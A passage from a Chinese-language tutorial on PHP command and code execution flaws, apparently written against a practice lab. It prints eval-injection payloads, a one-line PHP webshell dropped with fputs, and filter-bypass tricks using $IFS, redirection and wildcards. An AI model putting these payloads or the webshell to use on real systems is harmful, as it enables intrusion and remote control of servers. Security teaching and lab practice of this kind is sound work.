 ```````
可以看到使用POST接受了submit和ipaddress两个数据，然后使用 php_uname('s') 获取系统的操作类型，然后做shell_exec跟拼接导致命令执行。
### eval
可以看到当我们输入正常的Linux的命令没有正常拿到预期的结果，但是如果输入 phpinfo() ; 就会被正常解析，所以猜测后端大概是eval函数写的。
![image-20240228162941196](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228162941196.png)
所以我们可以使用eval函数执行phpinfo的话也可以执行system命令

```php
txt=phpinfo();&submit=%E6%8F%90%E4%BA%A4
txt=system("whoami");&submit=%E6%8F%90%E4%BA%A4
写入一句话
fputs(fopen('shell.php','w'),'<?php @assert($_POST[shell]);?>');
http://d19.s.iproute.cn//vul/rce/shell.php
```
![image-20240228162947420](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228162947420.png)
![image-20240228162952627](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228162952627.png)

#### 源码分析
```php
$html='';
if(isset($_POST['submit']) && $_POST['txt'] != null){
    if(@!eval($_POST['txt'])){
        $html.="<p>你喜欢的字符还挺奇怪的!</p>";
    }
}
```
可以看到使用POST接受了submit和txt两个数据，然后做eval跟拼接导致命令执行。
此处有一个@符号，是错误抑制符，用来屏蔽eval()函数可能导致的错误和异常，但是不能完全避免命令执行。
# 绕过
## 空格绕过
### $IFS
IFS 是一个环境变量，用于定义 shell 解释器在解析命令行输入时使用的字段分隔符。默认情况下， IFS 的值为包含空格、制表符和换行符的字符串： "\t\n"
当用户在 shell 中输入命令时， shell 解释器会将整个命令行输入拆分为多个参数，并以 $IFS 中指定的字符作为字段分隔符进行拆分，最后重新组合赋值给该变量。
直接用`$IFS` 的话，会认为解析没结束，会把后面的也当做参数解析，比如 `cat$IFSflag.php` ，会把 `IFSflag`一起当变量解析。这时候需要在 `$IFS` 后面进行截断，使解析为空，结束 `$IFS` ，正常执行后面的内容。
`$IFS` 环境变量不仅适用于 shell 解释器，还适用于其他一些命令和程序。

```bash
ca$1t${IFS}file.txt           # 等同于cat file.txt

${PS2} 对应字符 ‘>’
${PS4} 对应字符 ‘+’
${IFS} 对应 内部字段分隔符
${9} 对应 空字符串
```
### 标准输入
> 重导向标准输出
```bash
whoami>haha.txt
# 可以将命令的执行结果写到某个文件里面
```
< 重导向标准输入
```bash
cat<haha.txt
# 比如cat就可以接收输入重定向的内容，并且显示出来
```
### 通配符
* 匹配任意长度任意字符
```bash
cat ha*
# 匹配上ha开头的文件
```
? 匹配任意单个字符
```````